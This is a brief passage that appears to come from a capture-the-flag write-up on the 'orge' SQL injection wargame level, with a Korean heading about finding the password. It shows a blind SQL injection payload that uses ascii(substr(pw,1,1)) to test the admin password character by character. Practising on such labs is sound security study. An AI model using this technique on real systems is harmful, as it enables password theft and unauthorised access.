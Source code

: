 <img src="./img/orge1.png" width="700">

>`pw` 알아내기

* 6

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,1,1))=54#'`

<img src="./img/orge2.png" width="700">

